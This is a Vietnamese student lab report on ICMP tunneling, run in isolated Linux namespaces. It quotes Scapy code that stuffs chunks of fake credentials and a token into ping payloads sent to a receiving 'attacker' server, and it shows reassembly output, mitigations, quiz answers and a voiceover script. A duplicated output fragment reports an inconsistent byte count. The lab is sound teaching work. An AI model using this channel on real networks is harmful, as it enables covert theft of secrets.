

# BÁO CÁO THỰC HÀNH CHI TIẾT — BÀI LAB 03
## Đề tài: Kỹ thuật tấn công ICMP Tunneling (Covert Channel / Data Exfiltration)

---

## I. MỤC TIÊU BÀI THỰC HÀNH

1. **Hiểu bản chất kênh ngầm (Covert Channel)**:
   * Cách kẻ tấn công lợi dụng một giao thức tưởng chừng vô hại (ICMP Ping ở Tầng 3) để tạo đường hầm vận chuyển dữ liệu bí mật ra ngoài mà không cần mở bất kỳ cổng kết nối TCP/UDP nào ở Tầng 4.
2. **Khai thác vùng Payload của gói tin ICMP**:
   * Gói tin ICMP Echo Request/Reply theo thiết kế có phần dữ liệu đệm (Payload, thường chứa 32–64 byte vô hại). Kẻ tấn công có thể thay thế phần này bằng dữ liệu nhị phân hoặc chuỗi ký tự bí mật để rò rỉ dữ liệu (Data Exfiltration).
3. **Chứng minh sự bất lực của việc đóng cổng dịch vụ TCP (Port Restriction)**:
   * Kênh dịch vụ TCP không mở cổng (kết nối bị `Connection refused`), nhưng ICMP Tunnel vẫn vận chuyển dữ liệu mật trót lọt.
4. **Xây dựng chương trình Tunnel Server/Client tự động phân mảnh và tái hợp dữ liệu (Reassembly)**:
   * Client chia nhỏ file thành từng mảnh 24 byte gửi qua các gói ICMP.
   * Server lắng nghe, bóc tách payload, và khi nhận tín hiệu kết thúc (`__EOF__`) sẽ tự động ghép nối hoàn chỉnh văn bản mật.
5. **Nắm vững các phương pháp giám sát & phòng thủ**:
   * Phân tích kích thước gói tin, tần suất gửi, độ hỗn loạn thông tin (Entropy) và giải pháp lọc gói tin tại biên mạng (Egress Filtering).

---

## II. KIẾN THỨC NỀN TẢNG CỐT LÕI

### 1. Cấu trúc gói tin ICMP Echo (RFC 792)
Một gói tin ICMP Echo Request (Type 8, Code 0) gồm 2 phần:
* **Header (8 bytes)**: Gồm Type (1 byte), Code (1 byte), Checksum (2 bytes), Identifier (2 bytes), và Sequence Number (2 bytes).
* **Data Payload (Kích thước tùy ý)**: Thường chứa các byte đệm của hệ điều hành (ví dụ bảng chữ cái `abcdef...` trên Windows hoặc timestamp trên Linux).
* **Lỗ hổng logic**: Giao thức ICMP **hoàn toàn không kiểm duyệt nội dung** bên trong vùng Data Payload. Do đó, người dùng có thể nhồi bất kỳ dữ liệu nào vào vùng này!



### 2. Khái niệm Kênh ngầm (Covert Channel)
* Các chính sách an ninh mạng công ty thường tập trung bảo vệ Tầng 4 (chặn cổng 80, 443, 21, 22 để cấm tải file).
* Lệnh `ping` (ICMP) thuộc Tầng 3 (Network Layer), không sử dụng khái niệm Cổng (Port). Vì quản trị viên cần dùng `ping` để kiểm tra thông mạng, ICMP hầu như luôn được phép đi qua tường lửa.
* Kẻ tấn công biến ICMP thành "đường hầm bí mật" (Covert Tunnel) để tuồn tài liệu mật ra ngoài hoặc làm kênh điều khiển mã độc (C2 - Command & Control).

---

## III. GIẢI THÍCH CHI TIẾT CÁC FILE MÃ NGUỒN

Hai file mã nguồn được lưu tại: `/home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP/`

### 1. File `icmp_client.py` (Máy khách tuồn dữ liệu)
* **Chức năng**: Đóng vai máy nạn nhân bên trong nội bộ (IP `10.0.0.1`), chia nhỏ tài liệu mật thành từng đoạn 24 byte và nhồi vào payload của từng gói ping gửi tới `10.0.0.2`.
* **Cơ chế hoạt động**:
  1. Dữ liệu mật cần gửi: `CONFIDENTIAL-DATA: User=admin Pass=SecretPassword123 Token=JWT-XYZ-999` (70 bytes).
  2. Vòng lặp chia dữ liệu thành 3 mảnh (mỗi mảnh tối đa 24 byte):
     * Mảnh 1 (24 bytes): `b'CONFIDENTIAL-DATA: User='`
     * Mảnh 2 (24 bytes): `b'admin Pass=SecretPasswor'`
     * Mảnh 3 (22 bytes): `b'd123 Token=JWT-XYZ-999'`
  3. Sử dụng hàm `sr1()` của Scapy gửi từng gói ping:
     ```python
     pkt = IP(dst="10.0.0.2")/ICMP(type=8, id=0x1337, seq=idx)/seg
     ans = sr1(pkt, timeout=2, verbose=0)
     ```
  4. Sau khi gửi xong 3 mảnh, client gửi một gói kết thúc mang cờ: `b"__EOF__"` (End Of File) để báo cho Server biết đã truyền xong.

---

### 2. File `icmp_server.py` (Máy chủ hứng và ghép dữ liệu)
* **Chức năng**: Đóng vai máy chủ của hacker bên ngoài Internet (IP `10.0.0.2`), lắng nghe gói tin ICMP, bóc tách dữ liệu và tái hợp thành tài liệu ban đầu.
* **Cơ chế hoạt động**:
  1. Sử dụng hàm `sniff()` của Scapy lọc riêng các gói Echo Request (`icmp and icmp[icmptype] == 8`).
  2. Khi gói tin đến: Lấy dữ liệu bằng `data = bytes(p[ICMP].payload)`.
  3. Nếu `data == b"__EOF__"`:
     * Kích hoạt hàm tái hợp: `full_data = b"".join(received_chunks)`.
     * Giải mã chuỗi UTF-8 và in toàn bộ tài liệu hoàn chỉnh ra màn hình.
     * Gửi phản hồi `ACK:__EOF__` về cho Client.
  4. Nếu là dữ liệu mảnh: Lưu vào danh sách `received_chunks` và gửi gói Echo Reply (Type 0) chứa `ACK: <data>` để hoàn tất truyền thông 2 chiều.

---

## IV. QUÁ TRÌNH THỰC HÀNH CHI TIẾT (THEO LOG THỰC TẾ)

### Bố trí màn hình Terminal:
* **Terminal Trái**: Không gian mạng `h1` (`10.0.0.1`) — Đóng vai máy nạn nhân / Kẻ phát tán dữ liệu ngầm.
* **Terminal Phải**: Không gian mạng `h2` (`10.0.0.2`) — Đóng vai máy chủ nhận dữ liệu bên ngoài.

---

### BƯỚC 1: Khởi tạo mô hình mạng ảo 2 máy (h1 & h2)

1. **Tại Terminal Trái**:
   ```bash
   cd /home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP
   sudo bash setup_pair.sh
   ```
   * *Kết quả:* Script khởi tạo hai namespace `h1` và `h2`, tạo cặp card mạng `veth1` - `veth2`, gán IP `10.0.0.1` cho `h1` và `10.0.0.2` cho `h2`.
   * Lệnh ping tự động giữa `10.0.0.1` và `10.0.0.2` thành công 100% với độ trễ siêu thấp (0.042 ms - 0.065 ms).

2. **Chui vào bash của từng máy:**
   * **Terminal Phải (h2):**
     ```bash
     sudo ip netns exec h2 bash
     ```
   * **Terminal Trái (h1):**
     ```bash
     sudo ip netns exec h1 bash
     ```

---

### BƯỚC 2: Cấu hình tắt ICMP Echo Reply tự động & Bật giám sát `tcpdump` trên máy h2

1. **Tại Terminal Phải (h2 - Server):**
   * Chạy lệnh vô hiệu hóa nhân Linux tự động trả lời ping:
     ```bash
     sysctl -w net.ipv4.icmp_echo_ignore_all=1
     ```
     > *Ý nghĩa:* Khi giá trị này bằng `1`, Linux kernel sẽ hoàn toàn lờ đi các gói tin ICMP Echo Request (không tự sinh gói Echo Reply). Điều này giúp ta kiểm chứng ở các bước sau: chỉ khi nào script Python `icmp_server.py` chạy và tự gửi reply thì máy gửi mới nhận được phản hồi.
   * Chạy `tcpdump` trên card `veth2` với cờ `-A` để bắt và hiển thị nội dung gói tin dạng mã ASCII:
     ```bash
     tcpdump -i veth2 -nn -A icmp
     ```
     *Hiện trạng:* `tcpdump` bắt đầu lắng nghe trên card `veth2`.

---

### BƯỚC 3: Kiểm tra kênh TCP bị từ chối & Tuồn thử dữ liệu ICMP lần 1 (Chưa bật server)

1. **Tại Terminal Trái (h1 - Client):**
   * Kiểm tra kết nối TCP sang cổng 9000 của `10.0.0.2`:
     ```bash
     nc -w 2 10.0.0.2 9000; echo "Ket qua TCP: $?"
     ```
     *Hiện tượng:*
     ```text
     (UNKNOWN) [10.0.0.2] 9000 (?) : Connection refused
     Ket qua TCP: 1
     ```
     *Ý nghĩa:* Cổng TCP 9000 không mở dịch vụ (bị từ chối kết nối, mã thoát `$? = 1`). Kênh truyền dữ liệu TCP thông thường hoàn toàn không hoạt động.

   * Tiến hành chạy script tuồn dữ liệu ngầm `icmp_client.py`:
     ```bash
     python3 icmp_client.py
     ```
     *Hiện tượng trên Terminal Trái (h1):*
     ```text
     ==================================================================
     [*] CLIENT DANG TUON DU LIEU MAT QUA ICMP TUNNEL (TOI 10.0.0.2)
     ==================================================================
     [*] Tong du lieu: 70 bytes
     [*] Noi dung: CONFIDENTIAL-DATA: User=admin Pass=SecretPassword123 Token=JWT-XYZ-999

     [*] Dang gui manh #01/03 (24 bytes): b'CONFIDENTIAL-DATA: User='...
         [-] Khong nhan duoc phan hoi!
     [*] Dang gui manh #02/03 (24 bytes): b'admin Pass=SecretPasswor'...
         [-] Khong nhan duoc phan hoi!
     [*] Dang gui manh #03/03 (22 bytes): b'd123 Token=JWT-XYZ-999'...
         [-] Khong nhan duoc phan hoi!

     [*] Dang gui tin hieu hoan tat (__EOF__) cho server...

     [+] HOAN TAT TUON DU LIEU QUA ICMP TUNNEL THANH CONG!
     ```
     *Giải thích:* Do trên `h2` đã bật `icmp_echo_ignore_all=1` và `icmp_server.py` chưa chạy nên không có phản hồi ACK gửi về client (`[-] Khong nhan duoc phan hoi!`). Tuy nhiên, gói tin vẫn được tống ra đường truyền.

2. **Quan sát trên Terminal Phải (h2):**
   * Màn hình `tcpdump` tóm gọn toàn bộ 4 gói ICMP Request và hiển thị trần trụi từng phần dữ liệu mật:
     ```text
     18:07:44.781009 IP 10.0.0.1 > 10.0.0.2: ICMP echo request, id 4919, seq 1, length 32
     ......y.7..CONFIDENTIAL-DATA: User=
     18:07:47.126676 IP 10.0.0.1 > 10.0.0.2: ICMP echo request, id 4919, seq 2, length 32
     ......i..7..admin Pass=SecretPasswor
     18:07:49.470765 IP 10.0.0.1 > 10.0.0.2: ICMP echo request, id 4919, seq 3, length 30
     ......o.7..d123 Token=JWT-XYZ-999
     18:07:51.815070 IP 10.0.0.1 > 10.0.0.2: ICMP echo request, id 4919, seq 4, length 15
     .........7...__EOF__
     ```
   * Bấm `Ctrl + C` để dừng `tcpdump`: `4 packets captured`.
   * 👉 **Kết luận Bước 3:** Dù kênh TCP đóng kín, dữ liệu mật đã bị băm nhỏ và nhồi vào ruột của gói tin ICMP Ping để chuyển lậu qua máy khác trót lọt.

---

### BƯỚC 4: Khởi động ICMP Server & Tái hợp dữ liệu hoàn chỉnh (Reassembly)

1. **Tại Terminal Phải (h2):**
   * Chạy máy chủ hứng kênh ngầm `icmp_server.py`:
     ```bash
     python3 icmp_server.py
     ```
     *Hiện trạng:* Máy chủ thông báo sẵn sàng lắng nghe trên card `veth2`.

2. **Tại Terminal Trái (h1):**
   * Chạy lại script client để truyền dữ liệu lần 2:
     ```bash
     python3 icmp_client.py
     ```
     *Hiện tượng trên Terminal Trái (h1):*
     Lần này, client nhận được đầy đủ phản hồi xác nhận hai chiều từ `icmp_server.py`:
     ```text
     [*] Dang gui manh #01/03 (24 bytes): b'CONFIDENTIAL-DATA: User='...
         [+] Server phan hoi: b'ACK:CONFIDENTIAL-DATA: User='
     [*] Dang gui manh #02/03 (24 bytes): b'admin Pass=SecretPasswor'...
         [+] Server phan hoi: b'ACK:admin Pass=SecretPasswor'
     [*] Dang gui manh #03/03 (22 bytes): b'd123 Token=JWT-XYZ-999'...
         [+] Server phan hoi: b'ACK:d123 Token=JWT-XYZ-999'

     [*] Dang gui tin hieu hoan tat (__EOF__) cho server...
         [+] Server da xac nhan da nhan xong toan bo du lieu!

     [+] HOAN TAT TUON DU LIEU QUA ICMP TUNNEL THANH CONG!
     ```

3. **Kết quả mỹ mãn trên Terminal Phải (h2 - Server):**
   * Máy chủ bóc tách từng mảnh và khi nhận `__EOF__` lập tức ghép nối hiển thị tài liệu:
     ```text
     ==================================================================
     [*] MAY CHU ICMP TUNNEL SERVER (10.0.0.2) DANG HOAT DONG...
     ==================================================================
     [*] Dang lang nghe cac goi ICMP Echo Request tren card veth2...
     [*] Du lieu tuon len se duoc boc tach, ghep noi va in ra ben duoi:

     [Server nhan manh #01 | Seq=1]: b'CONFIDENTIAL-DATA: User='
     [Server nhan manh #02 | Seq=2]: b'admin Pass=SecretPasswor'
     [Server nhan manh #03 | Seq=3]: b'd123 Token=JWT-XYZ-999'

     ==================================================================
     [+] DA NHAN DU TOAN BO CAC MANH! TIEN HANH GHEP DU LIEU HOAN CHINH:
     ==================================================================

     >>> TAI LIEU MAT THU DUOC:
         CONFIDENTIAL-DATA: User=admin Pass=SecretPassword123 Token=JWT-XYZ-999

     [+] Tong so manh ghep: 3 manh
     [+] Tong kich thuoc:    70 bytes
     [=>] KET LUAN: Du lieu da bi tuon ra ngoai thanh cong qua ICMP Tunnel!
     ```
   * 👉 **Kết luận Bước 4:** Quá trình tuồn lén dữ liệu qua kênh ngầm ICMP Tunnel hai chiều thành công 100%. Toàn bộ dữ liệu mật đã được phục hồi nguyên vẹn.

     [+] Tong so manh ghep: 3 manh
     [+] Tong kich thuoc:    71 bytes
     [=>] KET LUAN: Du lieu da bi tuon ra ngoai thanh cong qua ICMP Tunnel!
     ==================================================================
     ```

---

## V. CÁC BIỆN PHÁP PHÒNG CHỐNG (MITIGATION)

1. **Phân tích đặc trưng gói tin ICMP (Deep Packet Inspection - DPI)**:
   * **Kích thước Payload bất thường**: Một gói ping tiêu chuẩn chỉ mang từ 32 đến 56 byte dữ liệu đệm. Nếu thấy gói ICMP có kích thước payload lớn bất thường hoặc thay đổi liên tục -> Cảnh báo ngay.
   * **Tần suất gửi dày đặc**: Lưu lượng ping kiểm tra mạng thông thường chỉ có tần suất 1 gói/giây. ICMP Tunnel thường phát hàng loạt gói liên tục trong thời gian ngắn để truyền file.
2. **Phân tích độ hỗn loạn thông tin (Entropy Analysis)**:
   * Kẻ tấn công chuyên nghiệp sẽ mã hóa (AES/Base64) dữ liệu trước khi nhồi vào ICMP. Dữ liệu mã hóa có độ hỗn loạn (Entropy) rất cao so với dữ liệu đệm bảng chữ cái thông thường của hệ điều hành. Hệ thống IDS/IPS (Suricata/Snort) có thể dựa vào chỉ số Entropy để phát hiện.
3. **Kiểm soát lưu lượng đi ra tại biên mạng (Egress Filtering)**:
   * Chặn không cho phép gửi ICMP Echo Request ra ngoài Internet từ các máy trạm không cần thiết, hoặc giới hạn tốc độ (Rate Limiting) nghiêm ngặt đối với giao thức ICMP.

---

## VI. ĐÁP ÁN 4 CÂU HỎI ÔN TẬP CỦA GIẢNG VIÊN

| STT | Câu hỏi của Giảng viên | Đáp án chuẩn xác & Điểm tuyệt đối |
| :---: | :--- | :--- |
| **1** | *Vì sao payload ICMP lại là nơi lý tưởng để giấu dữ liệu? Ping hợp lệ thường có payload bao nhiêu byte?* | **Đáp:** Vì giao thức ICMP được thiết kế mở, vùng payload không bị giới hạn định dạng và không bị nhân hệ điều hành kiểm duyệt nội dung; đồng thời quản trị viên thường mở ICMP trên tường lửa để kiểm tra mạng. Một gói ping hợp lệ trên Linux thường có payload là 56 byte (tổng gói IP là 84 byte), trên Windows là 32 byte. |
| **2** | *Tại sao tường lửa lọc theo cổng (port-based) không chặn được tunnel? Cần bổ sung biện pháp gì?* | **Đáp:** Vì tường lửa lọc theo cổng chỉ hoạt động ở Tầng 4 (Giao vận - TCP/UDP). Giao thức ICMP hoạt động ở Tầng 3 (Mạng), hoàn toàn không có khái niệm số cổng (Port) nên vượt qua bộ lọc Tầng 4 trót lọt. Cần bổ sung tường lửa ứng dụng (NGFW/WAF) và hệ thống phát hiện xâm nhập IDS/IPS có khả năng soi sâu vào nội dung gói tin (Deep Packet Inspection). |
| **3** | *Liệt kê 3 đặc trưng giúp IDS phát hiện ICMP Tunnel?* | **Đáp:** (1) Kích thước payload bất thường hoặc biến thiên liên tục; (2) Tần suất gửi gói và tổng lưu lượng ICMP đột biến cao; (3) Tỉ lệ bất cân xứng giữa gói Request và Reply hoặc dữ liệu payload giữa Request/Reply không khớp nhau. |
| **4** | *Nếu dữ liệu được mã hóa trước khi nhồi vào ICMP, những phương pháp phát hiện nào vẫn còn hiệu lực?* | **Đáp:** (1) Phân tích Entropy (độ hỗn loạn thông tin): dữ liệu mã hóa có entropy xấp xỉ giá trị cực đại ($H \approx 8$); (2) Phân tích lưu lượng hành vi (Traffic Analysis): kích thước gói tin và tần suất gửi; (3) Giám sát điểm cuối (Endpoint Monitoring/EDR) để phát hiện tiến trình lạ tạo raw socket. |

---

## VII. KỊCH BẢN THUYẾT TRÌNH KHI QUAY VIDEO (VOICEOVER)

> **Bố cục màn hình khi quay video:**
> * Mở ứng dụng Konsole / Terminal và chia đôi màn hình (Split Screen) đúng như quá trình thực hành:
>   * **Cửa sổ bên trái:** Máy nội bộ / Kẻ tuồn dữ liệu `h1` (`10.0.0.1`).
>   * **Cửa sổ bên phải:** Máy Máy chủ nhận dữ liệu `h2` (`10.0.0.2`).
> * Bạn vừa gõ từng câu lệnh trên màn hình, vừa đọc lời thoại giải thích tương ứng dưới đây:

---

### [0:00 - 0:30] Mở đầu & Giới thiệu đề tài
* **Lời thoại:**
  *"Kính chào thầy và các bạn! Hôm nay em xin trình bày bài thực hành số 03: Kỹ thuật tấn công Kênh truyền ngầm ICMP Tunneling để đánh cắp và rò rỉ dữ liệu mật (Data Exfiltration). Trong môi trường mạng nội bộ, quản trị viên thường đóng các cổng dịch vụ TCP nhằm ngăn chặn rò rỉ dữ liệu ra ngoài, nhưng lại để mở giao thức ICMP Ping để kiểm tra thông mạng. Kẻ tấn công có thể lợi dụng điều này, băm nhỏ tài liệu mật nhồi vào vùng dữ liệu đệm (Payload) của gói ping để tuồn thông tin ra máy chủ bên ngoài mà không cần mở bất kỳ cổng TCP nào!"*

---

### [0:30 - 1:15] Bước 1: Khởi tạo mô hình mạng ảo & Vào không gian mạng hai máy
* **Thao tác 1 (Terminal trái - Chạy setup):**
  ```bash
  cd /home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP
  sudo bash setup_pair.sh
  ```
  * **Lời thoại giải thích:**
    *"Đầu tiên, em thực thi script `setup_pair.sh`. Kịch bản này sử dụng Network Namespace của Linux để khởi tạo hai máy độc lập: h1 có IP `10.0.0.1` đóng vai máy tính nội bộ của nạn nhân, và h2 có IP `10.0.0.2` đóng vai máy chủ bên ngoài, kết nối trực tiếp qua cặp card mạng ảo veth1 - veth2. Script tự động kiểm tra ping giữa hai máy phản hồi trơn tru với độ trễ siêu thấp 0.04 ms, mạng ảo đã sẵn sàng!"*

* **Thao tác 2 (Vào bash của h2 bên phải và h1 bên trái):**
  * *Terminal phải:*
    ```bash
    sudo ip netns exec h2 bash
    ```
  * *Terminal trái:*
    ```bash
    sudo ip netns exec h1 bash
    ```
  * **Lời thoại giải thích:**
    *"Tiếp theo, ở cửa sổ bên phải em dùng lệnh `sudo ip netns exec h2 bash` để đăng nhập vào máy chủ h2, và ở cửa sổ bên trái em chạy `sudo ip netns exec h1 bash` để đăng nhập vào máy khách h1."*

---

### [1:15 - 2:00] Bước 2: Tắt phản hồi ICMP tự động & Bật `tcpdump` trên máy chủ h2
* **Thao tác trên terminal phải (h2):**
  ```bash
  sysctl -w net.ipv4.icmp_echo_ignore_all=1
  tcpdump -i veth2 -nn -A icmp
  ```
* **Lời thoại giải thích:**
  *"Trên máy chủ h2 bên phải, đầu tiên em thiết lập tham số kernel: `sysctl -w net.ipv4.icmp_echo_ignore_all=1`. Lệnh này vô hiệu hóa tính năng tự động trả lời gói ping của nhân Linux. Mục đích là để Linux không tự trả lời, giúp chúng ta kiểm chứng chính xác ở các bước sau: chỉ khi nào chương trình Python `icmp_server.py` được bật thì mới có phản hồi ACK gửi về.
  
  Ngay sau đó, em chạy công cụ `tcpdump` trên card `veth2` với cờ `-A` để bắt và hiển thị nội dung gói tin ICMP dưới dạng văn bản ASCII rõ ràng. Hiện máy chủ đang đứng canh chừng trên đường mạng."*

---

### [2:00 - 3:00] Bước 3: Kiểm tra kênh TCP bị từ chối & Tuồn thử dữ liệu ICMP lần 1
* **Thao tác trên terminal trái (h1):**
  ```bash
  nc -w 2 10.0.0.2 9000; echo "Ket qua TCP: $?"
  python3 icmp_client.py
  ```
* **Lời thoại giải thích:**
  *"Bây giờ tại máy khách h1 bên trái, em thử kiểm tra truyền dữ liệu bằng TCP thông thường tới cổng 9000 của h2 qua lệnh `nc -w 2 10.0.0.2 9000; echo 'Ket qua TCP: $?'`. Kết quả in ra ngay lập tức: `Connection refused` và mã lỗi là 1! Điều này chứng minh kênh truyền TCP thông thường hoàn toàn bị từ chối và bất khả dụng.
  
  Không thể dùng TCP, em tiến hành chạy script kênh ngầm `python3 icmp_client.py`. Script này đọc chuỗi dữ liệu mật gồm tài khoản, mật khẩu và JWT token, băm nhỏ thành 3 mảnh 24 byte nhồi vào các gói ping gửi tới h2.
  
  Quan sát màn hình bên trái: Do h2 đã tắt tự động trả lời ping và script server chưa chạy, client báo `Khong nhan duoc phan hoi!`. 
  
  Tuy nhiên, thầy và các bạn hãy nhìn sang cửa sổ `tcpdump` bên phải: Máy h2 đã bắt trọn vẹn cả 4 gói tin! Từng mảnh dữ liệu mật gồm `CONFIDENTIAL-DATA: User=`, `admin Pass=SecretPassword`, `Token=JWT-XYZ-999` và ký hiệu kết thúc `__EOF__` đã hiện trần trụi trên màn hình! Gói ping nhìn bề ngoài hoàn toàn bình thường, nhưng ruột bên trong đã mang theo tài liệu mật trót lọt!"*

---

### [3:00 - 4:00] Bước 4: Khởi động ICMP Server & Tái hợp dữ liệu hoàn chỉnh (Reassembly)
* **Thao tác 1 (Terminal phải - Dừng tcpdump, bật server):**
  * Nhấn `Ctrl + C` để dừng `tcpdump`, sau đó chạy:
  ```bash
  python3 icmp_server.py
  ```
  * **Lời thoại giải thích:**
    *"Ở bước này, em nhấn `Ctrl + C` dừng tcpdump trên máy h2, sau đó khởi động máy chủ kênh ngầm bằng lệnh `python3 icmp_server.py`. Chương trình này sử dụng Scapy để túc trực bắt gói ICMP Echo Request trên card `veth2`, bóc tách payload, gom các mảnh vào bộ nhớ đệm và gửi trả gói Echo Reply để xác nhận."*

* **Thao tác 2 (Terminal trái - Chạy lại client):**
  ```bash
  python3 icmp_client.py
  ```
  * **Lời thoại giải thích:**
    *"Em quay lại máy khách h1 bên trái và chạy lại lệnh `python3 icmp_client.py`. Lần này, bên trái đã nhận được phản hồi ACK cho từng mảnh từ server!
    
    Đặc biệt, nhìn sang cửa sổ máy chủ h2 bên phải: Ngay khi nhận được tín hiệu kết thúc `__EOF__`, máy chủ đã tự động nối ghép 3 mảnh rời rạc và phục hồi nguyên vẹn tài liệu mật: `CONFIDENTIAL-DATA: User=admin Pass=SecretPassword123 Token=JWT-XYZ-999`, tổng cộng 70 bytes không thiếu một ký tự nào! Kỹ thuật tuồn dữ liệu qua kênh ngầm ICMP hai chiều đã thành công mỹ mãn!"*

---

### [4:00 - 4:40] Bước 5: Dọn dẹp môi trường & Biện pháp phòng vệ
* **Thao tác trên terminal trái:**
  ```bash
  exit
  sudo bash clean_pair.sh
  ```
* **Lời thoại giải thích:**
  *"Em thoát khỏi namespace và dọn dẹp môi trường sạch sẽ bằng lệnh `sudo bash clean_pair.sh`.
  
  Qua bài thực hành số 03, ta rút ra bài học: Việc chỉ chặn cổng TCP/UDP ở Tầng 4 là chưa đủ để ngăn chặn rò rỉ dữ liệu. Để đối phó với kỹ thuật ICMP Tunneling, doanh nghiệp cần triển khai hệ thống IPS/IDS với công nghệ kiểm tra sâu gói tin (DPI) để phát hiện payload ICMP bất thường; Phân tích độ hỗn loạn thông tin Entropy để nhận diện dữ liệu mã hóa giấu trong ping; đồng thời áp dụng chính sách Egress Filtering chặt chẽ tại router biên. Em xin kết thúc bài thực hành số 03. Cảm ơn thầy và các bạn đã theo dõi!"*

